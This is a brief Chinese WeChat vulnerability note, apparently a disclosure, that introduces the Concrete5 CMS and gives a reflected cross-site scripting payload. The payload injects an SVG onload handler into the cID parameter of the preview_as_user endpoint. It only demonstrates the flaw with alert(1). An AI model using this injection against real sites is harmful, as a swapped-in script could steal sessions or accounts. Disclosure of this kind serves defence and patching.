 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/d8e6Lijd-H5n824X2xcWEA)

        Concrete5 是一个免费的 CMS 系统，可以创建网站，并以其易用性而闻名。使用 Concrete5 的主要组织包括 GlobalSign、美国陆军、REC 和 BASF 等。

Payload：

http://xxx/ccm/system/panels/page/preview_as_user/preview?cID="></iframe><svg/onload=alert(1)>

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV0dt5QbNdiba677ycOKkRq9QWdUanNH5L0YbeGg89o73XCUKuqWAOWuvapicF9ZLzexJWLg2oo76RMQ/640?wx_fmt=png)